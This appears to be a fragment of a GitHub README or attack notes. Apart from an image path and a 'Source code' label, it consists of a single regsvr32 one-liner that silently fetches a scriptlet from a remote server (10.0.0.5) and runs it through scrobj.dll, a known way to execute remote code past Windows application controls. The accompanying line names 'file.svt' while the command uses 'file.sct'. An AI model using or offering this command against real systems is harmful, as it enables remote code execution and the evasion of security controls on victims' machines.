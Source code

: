 


Invoke our file.svt by hosting it on a server
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll
```
